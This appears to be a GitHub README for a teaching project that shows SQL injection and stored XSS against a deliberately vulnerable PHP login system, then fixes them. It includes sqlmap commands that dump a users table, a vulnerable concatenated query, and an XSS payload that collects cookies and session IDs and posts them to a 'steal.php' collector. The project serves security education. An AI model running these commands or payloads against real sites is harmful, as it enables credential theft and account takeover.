 <h1 align="center">Secure Login System</h1>

We created a login system, for the backend we use PHP and MySQL for the database and on the frontend we used HTML/CSS. 
The purpose of this project is to show how code becomes vulnerable to SQL injection.
We will analyze and perform SQL Injection attacks and Cross-Site Scripting attacks to see how they work when we do not secure the appropriate code. 
We'll use some attack tools like SQLMap. 

The project has three parts:

1.Secure Login System with Non-Sanitizing Code
Attacks like SQL Injection work here, as well as attacks like Cross-Site Scripting (XSS).
    This code is intentionally vulnerable to demonstrate:

    How legacy PHP applications become vulnerable
    Why string concatenation in SQL is dangerous
    How sqlmap and other tools exploit these weaknesses
    The importance of modern PHP security practices

The [vulnerable_login_form.php](https://github.com/cipriancyberspace/securewebapplication/blob/6446f90b9c608a4dc2e249c212e0f0be46d18ce2/Secure_Login_System/vulnerable_login_form.php) contains the code responsible for simulating SQL injection attacks with sqlmap. We will analyze below how the attack mechanism works and the consequences when code lacks proper sanitization.

2.Secure Login System with Partial Sanitizing Code
Attacks like SQL Injection don't work here, but there are some vulnerabilities related to Cross-Site Scripting (XSS).

[secure_sqli_vulnerable_xss.php](https://github.com/cipriancyberspace/securewebapplication/blob/233d578e923a9ef875144f9e56649e0006b6384d/Secure_Login_System/secure_sqli_vulnerable_xss.php) file demonstrates code that has been sanitized to prevent SQL injection attacks while maintaining vulnerability to XSS attacks, together with supporting files including steal.php, dashboard.php, and payload files responsible for XSS attack vectors.


3.Secure Login System with Complete Sanitizing Code
In this part, we have protected the code against both threats. Also, I will show you how to implement CAPTCHA for brute force protection.

<h1 align="center">1.Secure Login System with Non-Sanitizing Code</h1>

![Sqlmap](https://raw.githubusercontent.com/cipriancyberspace/securewebapplication/99e7e8d24c04397303853220b9ae101d9e12e940/Secure_Login_System/images/sqlmap.png)



Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/ee5612aa8bd9970e35df345d5f98699db35a3003/Secure_Login_System/images/sqlmap_1.png)

<strong> 1.SQLMap Command Breakdown: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" --data="username=test&password=test" --dbs --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/1bf4ec6c5278162c33acfffa401df1ce9bfb6bfb/Secure_Login_System/images/sqlmap_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/eff2084c859e84b41a33be3071eaf471de9b0d7e/Secure_Login_System/images/sqlmap_2.png)

<strong> 2.Explore your database: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db --tables --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/9086268e64a0716507f5dc933ce2bfb70513775b/Secure_Login_System/images/sqlmap_4.png)

<strong> 3.Dump user data: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --dump --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/f0b283ed11636000979a965a8ce7c080b99c5ea2/Secure_Login_System/images/sqlmap_5.png)

<strong> 4.Get database schema: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --columns --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/e4dc111aa3704427855dbe08de21b97209472a2a/Secure_Login_System/images/sqlmap_6.png)



⚠️ Why This Works 
Vulnerable PHP code:
<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.

Primary Vulnerability Location:
Line 78-82 - The main SQL injection vulnerability:


<pre> <code>/ VULNERABLE CODE - Direct string concatenation
$user = $_POST['username'];  // ❌ RAW user input
$pass = $_POST['password'];  // ❌ RAW user input

// ❌ DANGEROUS: Direct concatenation into SQL query
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

Secure Alternative with Prepared Statements:

<pre> <code>// Proper sanitization using prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $user, $pass);  // "ss" = two strings
$stmt->execute();
$result = $stmt->get_result();</code> </pre>

Alternative with Input Escaping:

<pre> <code>// Basic escaping (less secure than prepared statements)
$user = $conn->real_escape_string($_POST['username']);
$pass = $conn->real_escape_string($_POST['password']);
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

<h1 align="center">2.Secure Login System with Partial Sanitizing Code</h1>

The attacker authenticates, accesses the "update profile" section, and injects the XSS payload into the "profile note" field before submitting the update. The code is stored RAW in the database without proper sanitization. Multiple payload types are available - this project demonstrates three variants: 1. Phishing payload 2. Password harvester 3. Silent credential extractor. These payloads extract sensitive data including cookies, storage objects, user information, browser details, form data, and page content based on payload configuration. A typical data collection payload example:

<pre> <code><script>
var stolenData = {
    cookies: document.cookie,
    sessionId: document.cookie.match(/PHPSESSID=([^;]+)/)[1],
    url: window.location.href,
    userAgent: navigator.userAgent,
    timestamp: new Date().toISOString()
};
// Data is prepared for transmission...
</script></code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_1.png)

In the following image, I have developed a payload named advance_password_phishing.js designed to extract user authentication credentials.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_2.png)

The payload sends the data to the attacker's server:

<pre> <code> fetch('./steal.php', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(stolenData),
    mode: 'no-cors'
}).then(function() {
    console.log('💰 Data stolen successfully!');
}); </code> </pre>

The payload transmits data to the attacker's server infrastructure. During this phase, steal.php processes the incoming JSON payload data, persists it to a .json file, and renders the collected information through dashboard.php

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_4.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_5.png)

<h1 align="center">3.Secure Login System with Complete Sanitizing Code: Code</h1>

The secure_sqli_xss.php file is fully protected against SQL injection attacks because it uses prepared statements instead of directly concatenating user input into SQL queries. It's also secured against XSS attacks by sanitizing all output with htmlspecialchars() function, which converts dangerous HTML characters into safe entities. Additionally, I implemented a CAPTCHA system to prevent brute force attacks - this means automated bots can't repeatedly try to guess passwords because they have to solve a visual puzzle with distorted text that only humans can read. The combination of these three security measures - prepared statements for SQL safety, output sanitization for XSS prevention, and CAPTCHA for brute force protection - makes this application much more secure than the vulnerable versions we tested earlier.


